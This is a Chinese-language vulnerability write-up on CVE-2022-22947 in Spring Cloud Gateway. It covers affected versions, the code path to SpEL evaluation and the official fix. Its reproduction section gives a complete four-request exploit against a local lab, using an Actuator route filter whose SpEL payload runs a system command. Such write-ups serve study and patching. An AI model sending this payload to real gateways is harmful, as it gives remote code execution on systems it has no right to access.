





# CVE-2022-22947 SpringCloudGateWay 远程代码执行

## 影响版本

Spring Cloud Gateway： 
3.1.0 
3.0.0 to 3.0.6 
Older, unsupported versions are also affected 

## 环境搭建

本地调试推荐：

https://github.com/spring-cloud/spring-cloud-gateway/tree/v3.1.0

单纯复现漏洞直接用p牛的docker环境：

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947

## 分析

在官网可以看到SpringCloudGateWay支持通过Actuator端点对网关进行监控和交互，其中还可以删除和创建特定的路由。

https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/



还有一些路由需要的参数

```json
{
  "id": "first_route",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/first"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

以及对上面参数的解释

| Path         | Type   | Description                                                  |
| :----------- | :----- | :----------------------------------------------------------- |
| `id`         | String | The route ID.                                                |
| `predicates` | Array  | The collection of route predicates. Each item defines the name and the arguments of a given predicate. |
| `filters`    | Array  | The collection of filters applied to the route.              |
| `uri`        | String | The destination URI of the route.                            |
| `order`      | Number | The route order.                                             |

filter参数可以定义该路由的Filter,并且可以传递Filter的参数。 SpringCloudGateWay内置了28个Filter，而其中所有的`GateWayFilter`都继承了`ShortcutConfigurable`接口，里面有一个`getValue`静态方法,可以看到里面执行了SPEL表达式,`expression.getValue(context)`

调用该`getValue`的地方在该接口的`ShortcutType`枚举类型中的`normalize`方法

调用`normalize`的地方则是在对每一个Filter初始化过程中对Filter属性进行解析时



## 复现

1.利用Actuator API添加一个Filter,为该Filter传入一个参数,其值为恶意SPEL表达式

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

2. 利用`actuator/gateway/refresh`接口刷新网关配置,重新加载每一个Filter,导致在加载添加的Filter时解析我们设置的SPEL表达式造成RCE

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

3. 查看回显

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



4. 删除恶意路由

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

## 修复

https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e

从官方链接可以看出使用了`SimpleEvaluationContext`代替了`StandardEvaluationContext`
